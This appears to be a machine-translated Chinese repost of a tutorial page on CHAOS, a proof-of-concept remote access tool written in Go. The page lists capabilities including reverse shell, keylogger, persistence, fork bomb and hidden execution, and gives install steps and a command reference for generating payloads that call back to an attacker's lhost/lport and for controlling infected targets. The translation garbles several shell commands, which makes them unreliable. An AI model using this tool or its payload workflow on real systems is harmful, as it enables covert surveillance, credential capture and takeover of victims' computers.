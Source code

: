 # 混沌:允许生成有效载荷和控制远程操作系统的 poco

> 原文：<https://kalilinuxtutorials.com/chaos-poc/>

CHAOS 是一个 PoC，它允许生成有效负载并控制远程操作系统。

**特性**

| 特征 | Windows | 苹果个人计算机 | Linux |
| --- | --- | --- | --- |
| `Reverse Shell` | X | X | X |
| `Download File` | X | X | X |
| `Upload File` | X | X | X |
| `Screenshot` | X | X | X |
| `Keylogger` | X |
| `Persistence` | X |
| `Open URL` | X | X | X |
| `Get OS Info` | X | X | X |
| `Fork Bomb` | X | X | X |
| `Run Hidden` | X |

**也可阅读-[osme deus:用于侦察的全自动攻击性安全工具&漏洞扫描](https://kalilinuxtutorials.com/osmedeus-reconnaissance-vulnerability-scanning/)**

**如何安装**

安装依赖项
$ sudo apt 安装 golang git -y

获取此库
$ go 获取 github.com/tiagorlampert/CHAOS

获取外部 golang 依赖项(需要获取所有依赖项)
$ go 获取 github.com/kbinani/screenshot
$ go 获取 github.com/lxn/win
$ Go 获取 github.com/matishsiao/goInfo
$ Go 获取 golang.org/x/sys/windows

也许您会看到消息“打包 github.com/lxn/win:构建约束排除所有 Go 文件”。

之所以会出现这种情况，是因为这些库是针对 windows 系统的，但它需要构建有效负载。

进入资源库
$ CD ~/Go/src/github . com/tiagorlampert/CHAOS

Run
$ Go Run main . Go

**如何使用？**

| 命令 | 主机上有… |
| --- | --- |
| `generate` | 生成有效载荷(例如`generate lhost=192.168.0.100 lport=8080 fname=chaos --windows`) |
| `lhost=` | 为连接指定 ip |
| `lport=` | 指定用于连接的端口 |
| `fname=` | 指定要输出的文件名 |
| `--windows` | 目标窗口 |
| `--macos` | 目标 Mac OS |
| `--linux` | 目标 Linux |
| `listen` | 监听新的连接(例如`listen lport=8080`) |
| `serve` | 提供文件 |
| `exit` | 退出此程序 |

| 命令 | 目标是… |
| --- | --- |
| `download` | 文件下载 |
| `upload` | 文件上传 |
| `screenshot` | 截图 |
| `keylogger_start` | 启动键盘记录器会话 |
| `keylogger_show` | 显示键盘记录器会话日志 |
| `persistence_enable` | 启动时安装 |
| `persistence_disable` | 从启动中删除 |
| `getos` | 获取操作系统名称 |
| `lockscreen` | 锁定操作系统屏幕 |
| `openurl` | 打开通知的网址 |
| `bomb` | 跑叉炸弹 |
| `clear` | 清空屏幕 |
| `back` | 关闭连接，但继续在目标上运行 |
| `exit` | 关闭连接并退出目标 |

**演示视频**

[https://www.youtube.com/embed/Fq_0yDPFjYE?feature=oembed&enablejsapi=1](https://www.youtube.com/embed/Fq_0yDPFjYE?feature=oembed&enablejsapi=1)

![](img/6b14bf51932a7ba3389bc6c63ebd70e8.png)

**免责声明**

本软件按“原样”提供，没有任何形式的担保。您可以自担风险使用该软件。最终用户完全负责使用。开发人员不承担任何责任，也不对该程序造成的任何误用或损坏负责。